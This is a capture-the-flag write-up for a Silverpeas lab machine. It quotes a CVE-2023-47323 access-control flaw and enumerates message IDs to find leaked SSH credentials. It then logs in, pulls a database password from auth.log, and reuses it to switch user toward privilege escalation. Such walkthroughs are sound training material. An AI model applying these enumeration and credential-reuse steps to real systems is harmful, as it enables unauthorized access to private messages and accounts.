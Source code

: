 ## This one seems interesting: CVE-2023-47323. 
- Broken access control allows attackers to read all messages.
```proof-of-concept exploit

Description

The notification/messaging feature of Silverpeas Core 6.3.1 does not enforce access control on the ID parameter. This allows an attacker to read all messages sent between other users; including those sent only to administrators.
Usage/Exploitation
To exploit this vulnerability, an attacker can use a script or Burp Suite Intruder to view all messages by attacking the ID parameter in this URL: http://localhost:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=[messageID] - the messages begin at "1" and increase in intervals of 1.

```
## After reading the messages one by one, I found interesting information in the 6th message:
- http://10.10.151.252:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=6
```message:

Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes. 

Username: tim

Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol

```
With this we can SSH into the server.

#### using the SSH credential:
- tim
- cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol 

`ssh tim@10.10.126.96`

After logging in, we got the user flag.

## Now it's time to escalate privileges.

- After looking around the logs at `auth.log.*`, I found postgress docker container info:
```auth.log.*
usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

- Tried the `POSTGRES_PASSWORD` on tyler user account:
```
$su tyler
Password.=_Zd_zx7N823/
```
